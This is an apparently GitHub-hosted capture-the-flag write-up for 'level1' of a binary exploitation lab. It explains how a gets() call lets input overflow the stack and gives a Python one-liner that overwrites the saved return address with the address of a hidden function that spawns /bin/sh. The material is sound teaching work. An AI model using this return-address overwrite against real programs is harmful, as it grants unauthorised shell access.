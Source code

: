 # LEVEL 1

## 💡 Explanation

In this level we have to:
1. When launching the program `./level1` it waits for an input; by passing "aaaa" it exist without any problem but if the input is much longer it segfaults!
2. By disassembling the main we see that there is a call to the function `gets` which is probably the one causing the segfault. This can easily be exploited by doing a buffer overflow and understanding where is each register saved in memory. [Here I spent HOURS looking for how to exploit the buffer overflow and pass a shellcode, but no...]
3. After the small parenthesis I've realized that when looking at what is in the binary but not in the main we discover a function `run` which is not called by the main. By looking the objdump we see that this function has a call to `system` and when looking at the hexdump we see some strings as "Good... Wait what?" and "/bin/sh".
4. We are going to try to access the function `run` by exploiting the buffer overflow that we talked about before. By having a look at the stack after calling `gets` and passing a long string of "a" (61 in hex) we will have something like this:

```
0xbffff6d0:	 <  ESP  >	0x0000002f	0xbffff72c	0xb7fd0ff4
0xbffff6e0:	0x61616161	0x61616161	0x61616161	0x61616161
0xbffff6f0:	0x61616161	0x61616161	0x61616161	0x61616161
0xbffff700:	0x61616161	0x61616161	0x61616161	0x61616161
0xbffff710:	0x61616161	0x61616161	0x08048400	0xb7fd0ff4
0xbffff720:	0x080484a0	0x00000000	 <  EBP  >	 <  EIP  >
```

5. We can see that if we exceed the buffer we can write into the EIP and therefore, the program will jump to that instruction after the get; therefore, we'll have to place the address of the function `run` (/!\ little endian! 08048444 => \x44\x84\x04\x08) exactly on the EIP. To do so, we have to calculate were does the program start writing the input (0xbffff6e0) and how many bytes we have until EIP (0xbffff72c - 0xbffff6e0) which gives a total of 76 bytes.

## 👾 Commands

To find the solution:
```
[VM]  objdump -d /home/user/level1/level1
[VM]  hexdump -C /home/user/level1/level1
[GDB] disas main
[GDB] disas run
[GDB] x/24xw $esp
```

To find the flag:
- `(python -c 'print "1"*76 + "\x44\x84\x04\x08"' ; cat - ) | /home/user/level1/level1 `
